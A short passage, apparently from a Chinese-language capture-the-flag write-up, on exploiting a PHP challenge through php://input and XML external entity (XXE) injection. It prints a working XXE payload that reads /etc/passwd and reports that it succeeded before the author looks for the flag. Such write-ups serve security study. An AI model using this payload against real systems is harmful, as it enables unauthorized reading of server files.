启用了 xml 扩展并加载外部实体, 那应该是 `php://input` 伪协议 + XXE 的题;

### XXE 注入

```xml

<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <username>&xxe;</username>
</root>
```

![15-1.png](15-1.png)

执行成功, 下一步要找 flag 在哪, 尝试了一下 `/flag` 发现不对;
